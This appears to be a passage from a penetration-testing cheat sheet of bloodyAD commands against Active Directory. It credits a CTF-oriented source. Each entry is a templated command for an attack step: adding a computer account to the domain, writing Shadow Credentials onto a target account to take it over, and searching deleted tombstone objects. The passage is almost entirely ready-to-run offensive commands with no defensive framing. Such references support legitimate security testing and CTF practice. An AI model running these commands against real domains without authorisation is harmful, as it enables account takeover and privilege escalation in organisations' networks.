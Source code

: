 ###### Create Computer Account

```sh
bloodyAD --host $dc -d $domain -u $username -p $password add computer $computer_name $computer_password
```

###### Shadow Credentials

```sh
bloodyAD --host $dc -d $domain -u $username -p $password add shadowCredentials $target
```

###### Extended Search - Tombstones

```sh
bloodyAD --host $dc -d $domain -u $username -p $password -k get search -c 1.2.840.113556.1.4.2064 -c 1.2.840.113556.1.4.2065
```

---

Big thanks to [Serioton](https://seriotonctf.github.io/) for the [BloodyAD Cheatsheet](https://seriotonctf.github.io/BloodyAD-Cheatsheet/index.html) that I based my commands off of <3